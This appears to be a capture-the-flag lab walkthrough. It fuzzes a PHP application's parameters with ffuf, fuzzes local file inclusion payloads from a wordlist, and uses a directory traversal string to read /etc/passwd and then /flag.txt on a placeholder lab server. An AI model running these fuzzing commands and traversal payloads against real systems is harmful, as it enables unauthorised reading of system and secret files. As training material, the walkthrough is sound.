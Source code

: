 # Automated Scanning

#### Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt

**Step 1** - Fuzz parameters:

* Use the [burp-parameter-names.txt](https://github.com/kafkaesqu3/fuzzing/blob/master/parameters/burp-parameter-names.txt) wordlist with the following command:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w burp-parameter-names.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?FUZZ' -fs 2309
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Fuzz LFI payloads:

* Use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?view=FUZZ' -fs 1935
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Test one of the discovered payloads:

* Append the payload to the application URL:
  * {% code overflow="wrap" %}
    ```
    http://SERVER_IP:SERVER_PORT/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag:

* Now simply substitute **/etc/passwd** for **/flag.txt**
  * `../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

And flag found!
